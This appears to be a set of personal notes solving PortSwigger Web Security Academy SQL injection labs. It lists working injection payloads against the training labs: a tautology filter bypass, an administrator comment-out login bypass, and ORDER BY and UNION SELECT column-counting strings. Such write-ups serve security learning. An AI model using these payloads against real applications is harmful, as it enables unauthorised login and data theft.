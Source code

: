 # Important Notes
* If it's oracle, you need to make sure that you select from dual, i.e.
```' UNION SELECT NULL FROM DUAL--```
* On 
"MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character # can be used to identify a comment."

# Apprentice
## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Background: display all products of any category
Payload: https://ac171fc21e837c23c0e34afc00d300f9.web-security-academy.net/filter?category=Accessories%27+or+%271%27=%271
tldr: ' or '1'='1

## Lab: SQL injection vulnerability allowing login bypass
Background: Login as administrator
Payload: username set to on the login page: administrator'-- 

## Lab: SQL injection UNION attack, determining the number of columns returned by the query
Background: it's in category again and we just need to count the columns with a union select
First run a query, comment the rest of the line to confirm it works (else you will get an internal server error)
This works: GET /filter?category=1'+-- 

**There's a few options:**

https://ac911fe71e9eb3afc0b54717000f0026.web-security-academy.net/filter?category=1'order+by+3-- 

Increment the order by starting by 1, the table has 3 columns, so we use:

```1' order by 3 ```

https://ac911fe71e9eb3afc0b54717000f0026.web-security-academy.net/filter?category=1'+union+all+select+'1','2','3'--

```1' union all select '1','2', '3'--```

Note, for some dumb reason, it doesn't allow you to complete the lab unless you use "null" instead of strings even though the other query works.


